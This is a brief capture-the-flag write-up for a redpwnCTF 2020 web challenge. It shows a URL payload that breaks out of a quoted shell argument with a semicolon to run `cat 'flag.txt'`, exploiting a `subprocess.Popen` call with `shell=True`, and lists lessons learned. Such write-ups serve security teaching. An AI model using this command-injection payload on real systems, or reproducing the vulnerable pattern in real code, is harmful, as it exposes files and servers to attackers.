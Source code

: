 https://2020.redpwn.net/challs

# Payload
`http://2020.redpwnc.tf:31957/notes/rodmartin139949650768976%27%3b%20cat%20%27flag.txt`

### Explanation
* `/notes` will make a post request to `/api/v1/notes/` inside that endpoint it will call `get_note(nid):` where `nid` will be put into
`subprocess.Popen(f"cat 'notes/{nid}' || echo it did not work btw", shell = True, stdout = subprocess.PIPE, stderr = subprocess.PIPE, stdin = subprocess.PIPE).communicate()`
So we just need to:
* feed it with a valid file.
* Close single quotes
* Semicolon
* New cat for the flag using the format `'flag.txt'` so the last semicolon won't cause any errors.

### Takeaway
* Always try to use the hints from the writers.
* Take a look in all endpoints. Here `/create` was filtering `'` meanwhile `/notes` was not.
* `shell = True` red flag
* Is it possible to scape from `cat ' ESCAPE_FROM_HERE '` without using single quotes?
